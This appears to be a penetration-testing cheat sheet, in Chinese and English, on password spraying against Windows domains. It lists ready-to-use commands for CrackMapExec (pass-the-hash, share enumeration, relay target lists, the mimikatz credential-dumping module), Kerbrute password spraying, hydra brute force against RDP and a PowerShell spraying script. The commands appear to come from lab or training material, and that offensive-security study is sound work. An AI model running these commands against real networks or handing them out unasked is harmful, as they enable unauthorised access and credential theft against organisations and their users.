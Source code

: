 * 播撒前查看下域密码策略`net accounts`, `--pass-pol`
* try ALL PR
# Spraying

## CrackMapExec
[CrackMapExec CheatSheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[Fully Understand CrackMapExec(cme)](https://ptestmethod.readthedocs.io/en/latest/cme.html)
```bash
# Support protocol: RDP, winrm, smb, mssql, ftp, ssh,ldap
#--pass-pol: 获取域密码政策; 
crackmapexec smb -L 
crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth #Some Creds use for localauth (without domain name front...Don't Forget it!)
crackmapexec 172.21.0.0 -u Administrator -H [hash] --share

crackmapexec smb --gen-relay-list smb-targets.txt 172.21.0.0/24 #
crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz
crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```
## Kerbrute
通过AS-REQ能否获取TGT，进行播撒。
```powershell
type .\usernames.txt
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
## hydra
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## Script [Spray-Passwords.ps1](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
```powershell
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```